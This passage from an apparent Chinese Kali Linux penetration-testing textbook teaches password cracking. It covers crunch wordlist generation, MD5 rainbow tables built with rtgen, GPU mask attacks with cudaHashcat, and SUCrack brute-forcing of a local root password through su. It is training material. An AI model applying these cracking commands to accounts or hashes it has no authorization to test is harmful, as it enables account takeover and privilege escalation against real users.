所谓的密码字典主要是配合密码破解软件所使用，密码字典里包括许多人们习惯性设置的密码。这样可以提高密码破解软件的密码破解成功率和命中率，缩短密码破解的时间。当然，如果一个人密码设置没有规律或很复杂，未包含在密码字典里，这个字典就没有用了，甚至会延长密码破解所需要的时间。在 Linux 中有 Crunch 和 rtgen 两个工具，可以来创建密码字典。为方便用户的使用，本节将介绍这两个工具的使用方法。

### 8.7.1 Crunch 工具

Crunch 是一种创建密码字典工具，该字典通常用于暴力破解。使用 Crunch 工具生成的密码可以发送到终端、文件或另一个程序。下面将介绍使用 Crunch 工具创建密码字典。

使用 Crunch 生成字典。具体操作步骤如下所示。

（1）启动 crunch 命令。执行命令如下所示。

```
root@kali:~# crunch 
```

执行以上命令后，将输出如下所示的信息：

```
crunch version 3.4
Crunch can create a wordlist based on criteria you specify. The outout from crunch can be sent to the screen, file, or to another program.
Usage: crunch <min> <max> [options]
where min and max are numbers
Please refer to the man page for instructions and examples on how to use crunch. 
```

输出的信息显示了 crunch 命令的版本及语法格式。其中，使用 crunch 命令生成密码的语法格式如下所示：

```
crunch [minimum length] [maximum length] [character set] [options] 
```

crunch 命令常用的选项如下所示。

*   -o：用于指定输出字典文件的位置。
*   -b：指定写入文件最大的字节数。该大小可以指定 KB、MB 或 GB，但是必须与-o START 选项一起使用。
*   -t：设置使用的特殊格式。
*   -l：该选项用于当-t 选项指定@、%或^时，用来识别占位符的一些字符。

（2）创建一个密码列表文件，并保存在桌面上。其中，生成密码列表的最小长度为 8，最大长度为 10，并使用 ABCDEFGabcdefg0123456789 为字符集。执行命令如下所示：

```
root@kali:~# crunch 8 10 ABCDEFGabcdefg0123456789 –o /root/Desktop/
generatedCrunch.txt
Notice: Detected unicode characters. If you are piping crunch output
to another program such as john or aircrack please make sure that program
can handle unicode input.
Do you want to continue? [Y/n] y
Crunch will now generate the following amount of data: 724845943848960 bytes
691266960 MB
675065 GB
659 TB
0 PB
Crunch will now generate the following number of lines: 66155263819776
AAAAAAAA
AAAAAAAB
AAAAAAAC
AAAAAAAD
AAAAAAAE
AAAAAAAF
AAAAAAAG
AAAAAAAa
AAAAAAAb
AAAAAAAc
……
AAdb6gFe
AAdb6gFf
AAdb6gFg
AAdb6gF0
AAdb6gF1
AAdb6gF2
AAdb6gF3
AAdb6gF4
AAdb6gF5 
```

从以上输出的信息中，可以看到将生成 659TB 大的文件，总共有 66155263819776 行。以上命令执行完成后，将在桌面上生成一个名为 generatedCrunch.txt 的字典文件。由于组合生成的密码较多，所以需要很长的时间。

（3）以上密码字典文件生成后，使用 Nano 命令打开。执行命令如下所示：

```
root@kali:~# nano /root/Desktop/generatedCrunch.txt 
```

执行以上命令后，将会打开 generatedCrunch.txt 文件。该文件中保存了使用 crunch 命令生成的所有密码。

### 8.7.2 rtgen 工具

rtgen 工具用来生成彩虹表。彩虹表是一个庞大的和针对各种可能的字母组合预先计算好的哈希值的集合。彩虹表不一定是针对 MD5 算法的，各种算法都有，有了它可以快速的破解各类密码。越是复杂的密码，需要的彩虹表就越大，现在主流的彩虹表都是 100G 以上。

使用 rtgen 工具生成彩虹表。具体操作步骤如下所示：

（1）切换到 rtgen 目录。执行命令如下所示。

```
root@kali:~# cd /usr/share/rainbowcrack/ 
```

（2）使用 rtgen 命令生成一个基于 MD5 的彩虹表。执行命令如下所示：

```
root@kali:/usr/share/rainbowcrack# ./rtgen md5 loweralpha-numeric 1 5 0 3800 33554432 0
rainbow table md5_loweralpha-numeric#1-5_0_3800x33554432_0.rt parameters
hash algorithm: md5
hash length:    16
charset:        abcdefghijklmnopqrstuvwxyz0123456789
charset in hex: 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73 74 75 76 77 78 79 7a 30 31 32 33 34 35 36 37 38 39
charset length: 36
plaintext length range: 1 - 5
reduce offset: 0x00000000
plaintext total: 62193780
sequential starting point begin from 0 (0x0000000000000000)
generating…
131072 of 33554432 rainbow chains generated (0 m 42.5 s)
262144 of 33554432 rainbow chains generated (0 m 39.2 s)
393216 of 33554432 rainbow chains generated (0 m 41.6 s)
524288 of 33554432 rainbow chains generated (0 m 42.0 s)
655360 of 33554432 rainbow chains generated (0 m 39.1 s)
786432 of 33554432 rainbow chains generated (0 m 40.1 s)
917504 of 33554432 rainbow chains generated (0 m 39.9 s)
1048576 of 33554432 rainbow chains generated (0 m 38.8 s)
1179648 of 33554432 rainbow chains generated (0 m 39.2 s)
1310720 of 33554432 rainbow chains generated (0 m 38.2 s)
.....
33161216 of 33554432 rainbow chains generated (0 m 40.2 s)
33292288 of 33554432 rainbow chains generated (0 m 38.9 s)
33423360 of 33554432 rainbow chains generated (0 m 38.1 s)
33554432 of 33554432 rainbow chains generated (0 m 39.1 s) 
```

以上信息显示了彩虹表的参数及生成过程。例如，生成的彩虹表文件名为 md5_loweralpha-numeric#1-5_0_3800x33554432_0.rt；该表使用 MD5 散列算法加密的；使用的字符集 abcdefghijklmnopqrstuvwxyz0123456789 等。

（3）为了容易使用生成的彩虹表，使用 rtsort 命令对该表进行排序。执行命令如下 所示：

```
root@kali:/usr/share/rainbowcrack# rtsort md5_loweralpha-numeric#1-5_0_
3800x33554432_0.rt
md5_loweralpha-numeric#1-5_0_3800x33554432_0.rt:
1351471104 bytes memory available
loading rainbow table…
sorting rainbow table by end point…
writing sorted rainbow table… 
```

输出以上信息表示生成的彩虹表已成功进行排序。

# 8.8 使用 NVIDIA 计算机统一设备架构（CUDA）

## 8.8 使用 NVIDIA 计算机统一设备架构（CUDA）

CUDA（Compute Unified Device Architecture）是一种由 NVIDIA 推出的通用并行计算架构，该架构使用 GPU 能够解决复杂的计算问题。它包含了 CUDA 指令集架构（ISA）及 GPU 内部的并行计算引擎。用户可以使用 NVIDIA CUDA 攻击使用哈希算法加密的密码，这样可以提高处理的速度。本节将介绍使用 OclHashcat 工具攻击密码。

使用 OclHashcat 工具之前，一定要确定当前系统已正确安装了 NVIDIA 显卡驱动。在 Kali 中，OclHashcat 默认安装在/usr/share/oclhashcat 目录中。所以需要先切换目录到 OclHashcat，再启动 OclHashcat 工具。执行命令如下所示：


以上输出结果显示了 OclHashcat 目录下所有的文件。其中，cudaHashcat.bin 可执行文件是用于破解密码文件的。在使用该可执行文件之前，先查看下它的帮助文档。执行命令如下所示：


输出的信息显示了 cudaHashcat.bin 命令的语法格式、可用选项及配置例子等。

了解 cudaHashcat 命令的语法及选项后，就可以指定要破解的密码文件了。执行命令如下所示：

```
root@kali:~# ./cudaHashcat.bin attackfile -1 ?l?u?d?s ?1?1?1?1 ?1?1?1?1 
```

下面对以上命令中的各参数将分别进行介绍，如下所示。

*   ./cudaHashcat.bin：表示调用 cudaHashcat 命令。
*   attackfile：指的是攻击的文件。
*   -1 ?l?u?d?：表示指定的一个自定义字符集。该选项指定的字符集可以是小写字母、大写字母和数字。
*   ?1?1?1?1：表示使用字符集唯一的左掩码。
*   ?1?1?1?1：表示使用字符集唯一的右掩码。

# 8.9 物理访问攻击

## 8.9 物理访问攻击

物理访问攻击与提升用户的权限类似。即当一个普通用户登录到系统中，破解本地其他用户账户的密码。在 Linux 中，普通用户可以通过 su 命令代替其他用户执行某些操作，意味着该用户能够在 Linux/Unix 系统中提升自己的权限。在这种情况下，可以使用 SUCrack 工具暴力破解使用 su 的本地用户账户的密码，来完成后续的渗透攻击操作。本节将介绍使用 SUCrack 工具攻击该用户。

SUCrack 是一个多线程工具，允许用户暴力攻击使用 su 的本地用户账户的密码。该工具常用的几个选项如下所示。

*   --help：查看 SUCrack 的帮助文件。
*   -l：修改尝试攻击登录的用户。
*   -s：设置显示统计的间隔时间。默认时间是 3 秒。
*   -a：允许用户设置是否使用 ANSI 转义码。
*   -w：是在 SUCrack 能够利用的线程数。因为 SUCrack 是多线程的，用户可以指定希望运行的线程数。这里建议仅使用 1 个，因为当每个尝试登录失败时，延迟 3 秒后将重新尝试连接。

【实例 8-8】使用 SUCrack 破解本地用户的密码。使用 SUCrack 命令时，需要指定一个密码文件。否则，将会得到一个搞笑的提示信息。执行命令如下所示：

```
$ sucrack /usr/share/wordlists/wordlist.txt
password is: 123456 
```

从输出的信息中可以看到，本地用户 root 的密码为 123456。因为使用 su 命令，不指定用户时，默认使用的是根 root 用户。所以，执行以上命令后，破解的是根用户 root 的 密码。

如果用户想设置两个线程，每隔 6 秒显示统计信息并想要设置使用 ANSI 转义码。执行命令如下所示：

```
$ sucrack -w 2 -s 6 -a /usr/share/wordlists/wordlist.txt 
```